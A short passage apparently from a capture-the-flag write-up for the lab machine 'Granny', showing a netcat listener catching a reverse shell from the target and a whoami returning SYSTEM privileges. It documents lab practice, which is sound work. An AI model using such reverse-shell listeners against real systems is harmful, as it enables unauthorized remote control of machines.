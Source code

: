 Receive the shell using `nc`

```bash
kali@kali:~/Desktop/tools/win$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from granny.htb [10.10.10.15] 1038
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```

And we are system!